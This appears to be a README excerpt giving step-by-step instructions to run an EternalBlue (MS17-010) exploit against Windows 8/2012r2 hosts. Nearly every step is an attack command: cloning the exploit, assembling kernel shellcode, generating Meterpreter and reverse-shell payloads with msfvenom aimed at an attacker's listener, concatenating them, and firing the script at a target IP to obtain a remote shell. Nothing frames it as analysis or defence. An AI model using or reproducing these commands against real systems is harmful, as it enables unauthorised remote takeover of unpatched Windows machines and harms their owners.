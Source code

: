 ## Instructions to perform exploit

**Step 1:** `git clone https://github.com/tnkrtaylorsldrspy/MS17-010.git && cd MS17-010/`

**Step 1a:** gedit/vi/nano eternalblue_exploit8.py and change lines 52 and 53 to match the account authentication

example:

`USERNAME='Guest'`

`PASSWORD=''`

**Step 2:** cd shellcode and type `nasm -f bin eternalblue_kshellcode_x64(x86).asm`

**Step 3:** `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 3a:** `msfvenom -p windows/x64/shell/reverse_tcp -f raw -o shell_(IP)_msf.bin EXITFUNC=thread LHOST=(IP) LPORT=(Port)`

**Step 4:** `cat eternalblue_kshellcode_x64(x86) shell_(IP)_msf.bin (OR meterpreter_(IP)_msf.bin) > (payloadname).bin`

**Step 5:** Set up exploit/multi/handler in a new terminal window with matching payload you created above and run it

**Step 6:** `cd MS17-010`

**Step 7:** `python eternalblue_exploit8.py (target IP) (payloadname).bin (GROOM COUNT)`

__**-side note-** Groom count will typically function with a "200" for windows 8/2012r2 but *might* crash the system - use at your own risk__

**Step 8:** shell/meterpreter should be returned if "Guest" account is active or entered credentials worked.
